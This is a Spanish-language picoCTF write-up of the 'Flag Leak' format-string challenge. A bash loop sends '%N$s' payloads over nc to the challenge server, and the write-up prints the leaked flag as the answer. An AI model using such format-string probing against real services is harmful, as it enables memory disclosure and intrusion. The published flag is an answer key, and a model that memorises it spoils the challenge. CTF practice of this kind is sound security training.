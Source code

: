 # Flag Leak

## Descripción
Story telling class 1/2 I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using: `nc saturn.picoctf.net 60910`
## Pistas

## Solución
```bash
(kali㉿kali)-[~/Documents/binaryExplloitation/flagLeak]
└─$ wget https://artifacts.picoctf.net/c/91/vuln.c
--2023-05-15 12:18:27--  https://artifacts.picoctf.net/c/91/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 13.249.74.22, 13.249.74.69, 13.249.74.56, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|13.249.74.22|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 947 [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c                                    100%[====================================================================================>]     947  --.-KB/s    in 0s      

2023-05-15 12:18:29 (10.6 MB/s) - ‘vuln.c’ saved [947/947]

                                                                                                                                                                       
┌──(kali㉿kali)-[~/Documents/binaryExplloitation/flagLeak]
└─$ wget https://artifacts.picoctf.net/c/91/vuln  
--2023-05-15 12:18:42--  https://artifacts.picoctf.net/c/91/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 13.249.74.17, 13.249.74.56, 13.249.74.69, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|13.249.74.17|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15876 (16K) [application/octet-stream]
Saving to: ‘vuln’

vuln                                      100%[====================================================================================>]  15.50K  --.-KB/s    in 0s      

2023-05-15 12:18:43 (54.4 MB/s) - ‘vuln’ saved [15876/15876]

                                                                                                                                                                       

┌──(kali㉿kali)-[~/Documents/binaryExplloitation/flagLeak]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 60910 | grep -Ei (pico|ctf); done
CTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}
```
## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}

## Notas Adicionales 
comando          descripción

## Referencias